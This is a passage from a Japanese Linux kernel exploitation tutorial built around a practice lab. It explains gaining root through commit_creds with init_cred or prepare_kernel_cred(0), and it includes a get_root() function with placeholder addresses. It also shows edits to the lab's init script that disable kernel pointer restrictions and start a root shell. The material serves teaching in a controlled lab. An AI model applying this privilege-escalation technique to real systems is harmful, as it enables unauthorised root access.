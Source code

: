 `init_cred`([/kernel/cred.c](https://elixir.bootlin.com/linux/v5.15/source/kernel/cred.c#L41))はPID0プロセス用の`task_struct`が保持する`cred`です。
必然的にUID0を持っています。

```c
struct cred init_cred = {
	.usage			= ATOMIC_INIT(4),
#ifdef CONFIG_DEBUG_CREDENTIALS
	.subscribers		= ATOMIC_INIT(2),
	.magic			= CRED_MAGIC,
#endif
	.uid			= GLOBAL_ROOT_UID,
	.gid			= GLOBAL_ROOT_GID,
	.suid			= GLOBAL_ROOT_UID,
	.sgid			= GLOBAL_ROOT_GID,
  ...
}
```

しかもこのシンボルはexportされています。
よって、`commit_creds()`に`&init_cred`を渡してやると、UID0の`cred`で上書きできます。

### 2. `prepare_kernel_cred(0)`を使う

`prepare_kernel_cred(0)`([/kernel/cred.c](https://elixir.bootlin.com/linux/v5.15/source/kernel/cred.c#L718))は、引数に渡された`task_struct`をもとに新しい`cred`を作成します。
処理の詳細は読者におまかせしますが、`NULL`を渡した場合には`init_cred`を使って新しい`cred`を作成することになっています。
よって、先程の方法と同じく`commit_creds(prepare_kernel_cred(0))`を呼び出すことで、UID0の`cred`を作成して上書きすることができます。


## symbolを調べる

さて、ここまでで準備はできました。
exploit内に以下のような関数を用意しましょう:

```c
typedef int (*commit_creds_fn)(void *);
typedef void *(*prepare_kernel_cred_fn)(void *);
const commit_creds_fn commit_creds = (commit_creds_fn)0x000000000000000;
const prepare_kernel_cred_fn prepare_kernel_cred =
    (prepare_kernel_cred_fn)0x0000000000000000;

void get_root(void) { commit_creds(prepare_kernel_cred(0)); }
```

`get_root()`のアドレスを`ioctl`に渡してジャンプさせればrootを取ることができます。
しかし、関数を呼ぶためには関数のアドレスを知る必要があります。
色々と方法はありますが、`/proc/kallsyms`を読んでシンボル情報を取得するのが一番楽です。
ただし、このprocファイルはroot権限がないと読むことができません(厳密には、rootでないとアドレスがマスクされます)。
そのため、`initramfs`中の`/etc/init.d/S999p3land`の以下の箇所を修正しておきましょう:

```txt
## /proc/kallsymsにおけるポインタマスクを取り除く
#echo 2 > /proc/sys/kernel/kptr_restrict
echo 0 > /proc/sys/kernel/kptr_restrict

## dmesgにおけるポインタマスクを取り除く
#echo 1 > /proc/sys/kernel/dmesg_restrict
echo 0 > /proc/sys/kernel/dmesg_restrict

## rootでシェルを起動
#setsid cttyhack setuidgid 9999 sh
setsid cttyhack setuidgid 0 sh
```
